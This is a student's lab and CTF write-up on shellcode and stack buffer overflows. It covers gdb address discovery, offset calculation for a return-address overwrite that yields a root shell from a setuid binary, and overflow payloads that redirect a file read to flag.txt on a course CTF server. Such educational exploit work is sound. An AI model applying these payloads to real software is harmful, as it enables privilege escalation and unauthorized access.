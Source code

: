 # Work developed in week 5

## **Lab Tasks**

### Task 1

After creating the two binnaries with the Makefile we executed both. The results are listed bellow:

```bash
# Normal bash
seed@8e1ec14993da:~/shellcode$ uname -a
Linux 8e1ec14993da 5.10.60.1-microsoft-standard-WSL2 #1 SMP Wed Aug 25 23:20:18 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
seed@8e1ec14993da:~/shellcode$ whoami
seed
seed@8e1ec14993da:~/shellcode$ ps -p $$
  PID TTY          TIME CMD
    1 pts/0    00:00:00 bash
seed@8e1ec14993da:~/shellcode$ env
HOSTNAME=8e1ec14993da
PWD=/home/seed/shellcode
HOME=/home/seed
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.wim=01;31:*.swm=01;31:*.dwm=01;31:*.esd=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
TERM=xterm
SHLVL=1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env
OLDPWD=/home/seed
```

```bash
# 32-bit binnary
seed@8e1ec14993da:~/shellcode$ ./a32.out
$ uname -a
Linux 8e1ec14993da 5.10.60.1-microsoft-standard-WSL2 #1 SMP Wed Aug 25 23:20:18 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
$ whoami
seed
$ ps -p $$
  PID TTY          TIME CMD
   96 pts/0    00:00:00 sh
$ env
LOGNAME=seed
SHLVL=1
PWD=/home/seed/shellcode
OLDPWD=/home/seed/shellcode
_=/bin/env
```

```bash
# 64-bit binnary
seed@8e1ec14993da:~/shellcode$ ./a64.out
$ uname -a
Linux 8e1ec14993da 5.10.60.1-microsoft-standard-WSL2 #1 SMP Wed Aug 25 23:20:18 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
$ whoami
seed
$ ps -p $$
  PID TTY          TIME CMD
  102 pts/0    00:00:00 sh
$ env
LOGNAME=seed
SHLVL=1
PWD=/home/seed/shellcode
OLDPWD=/home/seed/shellcode
_=/bin/env
```

Both 32-bit and 64-bit binaries have the same output, since they both execute `execve()` call with "*/bin//sh"* as the first argument, and we can see no environment variables are passed in that call, since the third argument is "*0"*.

### Task 2

This task requeires us to analize the code, which has a buffer overflow vulnerability, and to prepare the compilation for Task 3. The goal is to get acess to the root shell, exploiting that vulnerability, and to do so first we need to turn off the StackGuard and the non-executable stack protections, and give the programn the required permissions, as described in the highlighted *Compilation* section.

### Task 3

Since we already explored the code and know that we have to perform a buffer overflow, we will start by executing the code in the lab guide to get the buffer’s starting position and the place where the return-address is stored:

```bash
[11/21/21]seed@VM:~/.../tarefa$ touch badfile
[11/21/21]seed@VM:~/.../tarefa$ gdb stack-L1-dbg
gdb-peda$ b bof
Breakpoint 1 at 0x122d: file stack.c, line 11.
gdb-peda$ run
...
Breakpoint 1, bof (str=0xffffcf77 "") at stack.c:11
11	{
gdb-peda$ next
...
14	    strcpy(buffer, str);
gdb-peda$ p $ebp
$1 = (void *) 0xffffcb48
gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffcadc
gdb-peda$ quit
```

The *Base Pointer* is at "0xffffcb48" and the *buffer’s starting position* is at "0xffffcadc". 
Knowing these two values, the shellcode size, and the size written to the buffer, we know that the shellcode must be placed 517 positions from the *buffer’s starting position* (buffer has 517 size) minus the number of positions the shellcode occupies.

```jsx
start = 517 - len(shellcode)
ret    = 0xffffcadc + start
offset = (0xffffcb48 - 0xffffcadc) + 4
```

We can cause a buffer overflow to override the return address, located above the *Base Pointer*, so the offset value should be the difference between the *buffer’s* and the *Base Pointer's* address, plus the *Base Pointer* size. With this vulnerability we can execute a shell with root privileges and execute any code:

```bash
[11/21/21]seed@VM:~/.../tarefa$ python3 exploit.py 
[11/21/21]seed@VM:~/.../tarefa$ ./stack-L1
Input size: 517
# ls -l                                              
total 192
-rwxrwxrwx 1 seed seed   965 Nov 10 04:09 Makefile
-rw-rw-r-- 1 seed seed   517 Nov 21 09:17 badfile
-rwxrwxrwx 1 seed seed   270 Nov 10 04:09 brute-force.sh
-rwxrwxrwx 1 seed seed  1004 Nov 21 09:17 exploit.py
-rw-rw-r-- 1 seed seed    11 Nov 21 09:16 peda-session-stack-L1-dbg.txt
-rwxrwxrwx 1 seed seed 15908 Nov 16 04:56 stack
-rwsr-xr-x 1 root seed 15908 Nov 21 09:15 stack-L1
-rwxrwxr-x 1 seed seed 18688 Nov 21 09:15 stack-L1-dbg
-rwsr-xr-x 1 root seed 15908 Nov 21 09:15 stack-L2
-rwxrwxr-x 1 seed seed 18688 Nov 21 09:15 stack-L2-dbg
-rwsr-xr-x 1 root seed 17112 Nov 21 09:15 stack-L3
-rwxrwxr-x 1 seed seed 20112 Nov 21 09:15 stack-L3-dbg
-rwsr-xr-x 1 root seed 17112 Nov 21 09:15 stack-L4
-rwxrwxr-x 1 seed seed 20112 Nov 21 09:15 stack-L4-dbg
-rwxrwxrwx 1 seed seed  1131 Nov 21 09:13 stack.c
# exit
```

Bellow is our drawn schema, that helped us visualize the stack and addresses, so we know which values to change in *exploit.py*

![Untitled](images/LB5_stack.png)

## **CTF write-up/resolution**

### Challenge 1

We start by analising the compiled program, checking which protections it has. Using the `checksum` command we can see its architecture (little-endian) and some permissions:

```bash
$ checksec program
  Arch:     i386-32-little
  RELRO:    No RELRO
  Stack:    No canary found
  NX:       NX disabled
  PIE:      No PIE (0x8048000)
  RWX:      Has RWX segments
```

After looking at the code we can answer the questions in moodle:

- The program reads the "*mem.txt" file*
- We can control which file is open if we change the "*meme_file*" variable
- A buffer overflow vulnerability is present. We can cause an overflow of the "*buffer*" variable in the `scanf` call, since the function can read up to 28 characters and *buffer* only has size of 20.

Therefore, when the input is requested to the user though the `scanf` call, we can write, for example,  "aaaaaaaaaaaaaaaaaaaaflag.txt". This way we fill the *buffer* with the 20 "a"s characters and cause an overflow of "flag.txt" to *meme_file* variable. Afterwards, in the `fopen` call, the file opened will be "flag.txt" instead of "mem.txt", in the `fgets` call the first 20 characters will be read from that file, and the flag is shown in the console.

```bash
[11/17/21]seed@VM:~/.../Semana5-Desafio1$ nc ctf-fsi.fe.up.pt 4003
Try to unlock the flag.
Show me what you got:aaaaaaaaaaaaaaaaaaaaflag.txt
Echo aaaaaaaaaaaaaaaaaaaaflag.txt
I like what you got!
flag{cd69acd607d4815defdf0c99bd62fc36}
```

### Challenge 2

This Challenge is similar to the above, similar program with the same `checksec` output, except that now these are the variables declared in the start of main():

```c
char meme_file[8] = "mem.txt\0";
char val[4] = "\xef\xbe\xad\xde";
char buffer[20];
```

And we have the following if condition, blocking us from seeing the contents of the file:

```c
if(*(long*)val == 0xfefc2122)
```

But it doesn't mitigate the problem completely. To read the flag in the *flag.txt* file we need to perform a similar buffer overflow to the previous challenge, but now, additionally, we need to make sure that the value in `val` is equal to `0xfefc2122` bytes.With the provided python script, we can change the input to be sent to the following:

```python
r.sendline(b"a"*20 + b"\x22\x21\xfc\xfe" + b"flag.txt")
```

This way, we send 20 characters to fill the buffer, set the correct value of `val` to match the required *if condition*, and finally change the value of `meme_file`. Once again we are successful and get the flag inside *flag.txt* file. Important to note that we send the "0xfefc2122" in bytes in the reverse order, due to that fact that the architeture is *little endian.* Little-endianness refers to the byte ordering where the least significant byte is stored first. So in this case, if we have the 4-byte value of "0xfefc2122" we would store it in memory, in the *val* buffer, in the following way: "22 21 fc fe" (\x22\x21\xfc\xfe).
